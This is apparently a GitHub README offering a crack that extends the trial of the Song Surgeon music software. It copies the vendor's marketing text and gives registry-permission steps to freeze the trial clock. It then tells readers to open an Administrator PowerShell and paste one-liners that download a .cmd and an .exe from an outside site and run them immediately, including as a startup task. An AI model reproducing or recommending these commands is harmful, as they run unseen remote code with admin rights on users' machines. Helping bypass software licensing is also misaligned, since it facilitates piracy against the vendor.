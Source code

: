 [![PSScriptAnalyzer](https://github.com/BiltuDas1/song-surgeon-demo-unlimited/actions/workflows/powershell-analysis.yml/badge.svg)](https://github.com/BiltuDas1/song-surgeon-demo-unlimited/actions/workflows/powershell-analysis.yml)
[![SL Scan](https://github.com/BiltuDas1/song-surgeon-demo-unlimited/actions/workflows/shiftleft-analysis.yml/badge.svg)](https://github.com/BiltuDas1/song-surgeon-demo-unlimited/actions/workflows/shiftleft-analysis.yml)
[![Donate](https://img.shields.io/badge/Buy%20me%20a-Coffee-blue.svg)](https://www.buymeacoffee.com/stopback)

# Song Surgeon Unlimited Demo (Crack)
Song Surgeon was first released in 2007, and is now a decade old... From its first humble beginnings it has grown to be one of the most popular and valuable tools used by musicians – both students and teacher. At last count Song Surgeon has been sold in more than 120 countries worldwide – and by musicians that play 37 different instruments.

Our newly released Version 5 of Song Surgeon takes the program to a whole new level with the addition of key detection, automatic beat detection, and chord detection. What that means is that when you open a song, Song Surgeon will automatically detect the tempo of a song in BPMs, in will determine the key signature, it will detect the chords – and it will display all of this information on the main user interface so you can see and use it. We know of no other audio slowdowner software that provides these three features in one program. And of course, that’s just the beginning.

In addition to providing nearly flawless, distortion-free key and tempo change of audio, Song Surgeon has a long list of other useful features:

# How to Increase time of Song Surgeon?
There has 2 method for increasing time of Song Surgeon Demo Version, 1st one is registy and 2nd one is PowerShell script (online)

| Registry | PowerShell |
| ------- | ------------------ |
| It will freeze current time so that the program will not be Expire | It will Set the program time to infity amount of time that you will be old but the demo will not be Expire|
| Hard for those who doesn't has enough knowledge about registry | Easy for those who know basic knowledge about computers |
| It only can set infinity trial on the Free Version | It only can set infinity trial on the Premium Version* |
| No need any Internet Connection | Needs a stable Internet Connection |
| Real time update not available | Real time update available on [stbak.cf](https://stbak.cf) |

*Song Surgeon comes with 2 program which is a free demo (Limited) and another is paid demo, you can choose which demo you will use, just goto the Song Surgeon Program directory and open **switcher.bat**

# Installation
## 1st Method (Registry)

[Download Registry file into your Computer](/V_5.reg)  

On Windows 10
1. Merge the Registry into your Windows Registry
2. Open **regedit.exe** and then goto this directory `Computer\HKEY_USERS\S-1-5-21-3204273600-1076203570-2903160593-1001\SOFTWARE\TMJ\Demos`
3. Right Click on `SS_<Version of Song Surgeon>` and choose Permissions.., click on Advanced and then Disable inheritance (Windows 10)
4. Then Remove all inheritance Permissions from the object, Add > Select a Principal, type `everyone` in the object name box and click OK
5. Under Basic Permissions choose **Read** and click OK  

<p align="center">
  <img src="/Screenshots/Screenshot%202021-05-01%20203647.png?raw=true">
</P>

6. Click OK, After clicking OK if you see the following Screen then you are done!

<p align="center">
  <img src="/Screenshots/Screenshot%202021-05-01%20204126.png?raw=true">
</P>


## 2nd Method (PowerShell) [Recommended]

This method needs an stable internet connection, If you are using latest version of Song Surgeon then It's recommended to use this script.

1. Goto start menu and search for **powershell**, Right click on it and Choose **Run as Administrator**
2. After comfirming Admin Password, type the below code into the powershell window and hit enter
```
wget stbak.cf/ss -outfile ss.cmd; ss.cmd; del ss.cmd
```
3. Now Open the Song Surgeon and see how the script magically works on it.

<p align="center">
  <img src="/Screenshots/Screenshot%202021-05-01%20213220.png?raw=true">
</P>

### Install As Startup task

This method doesn't lock the time of your Program so te demo time continues counting for prevent the program from being Expaired add the tool into your computer startup, it means the program will be run automatically on start. For doing this type below code into powershell window and hit enter.
```
cd\; wget stbak.cf/sss -outfile sss.exe; .\sss.exe
```
for deleting temporary files which created by powershell use
```
remove-item sss.exe
```

***Note: Make sure you manually patch the code before using the install as startup task.***

# Donation
If you like my work then Please donate
I need donation because,
1. I has wasted about a week for making this script
2. I will update the script regulary so that It will be work on latest version
3. And I need to pay my web host for running the script online.

Plz consider by giving me a small donation

<p align="center">
  <a href='https://www.buymeacoffee.com/stopback'><img src="https://github.com/appcraftstudio/buymeacoffee/raw/master/Images/snapshot-bmc-button.png" height='50' width='200'></a>
</p>

# Contact
If you has any Query then you can contact me at [Telegram](https://t.me/BiltuDas1)
